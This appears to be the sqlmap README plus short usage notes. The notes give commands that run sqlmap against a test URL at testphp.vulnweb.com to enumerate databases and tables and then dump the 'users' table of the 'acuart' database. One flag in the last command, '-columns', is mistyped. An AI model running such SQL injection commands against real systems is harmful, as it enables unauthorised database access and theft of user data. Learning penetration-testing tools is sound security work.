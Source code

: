 # sqlmap ![](https://i.imgur.com/fe85aVR.png)

[![.github/workflows/tests.yml](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml/badge.svg)](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml) [![Python 2.6|2.7|3.x](https://img.shields.io/badge/python-2.6|2.7|3.x-yellow.svg)](https://www.python.org/) [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE) [![Twitter](https://img.shields.io/badge/twitter-@sqlmap-blue.svg)](https://twitter.com/sqlmap)

Installation
----

Preferably, you can download sqlmap by cloning the [Git](https://github.com/sqlmapproject/sqlmap) repository:

    git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

Usage
----

To get a list of basic options and switches use:

    python sqlmap.py -h

To get a list of all options and switches use:

    python sqlmap.py -hh

Web App
---
http://testphp.vulnweb.com/listproducts.php?cat=1

Code
---
   sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch --dbs 

To open database(acuart database name):

   sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch -D acuart --tables --dbs 


To get details of the table:

   sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --batch -D acuart -T users -columns --dump

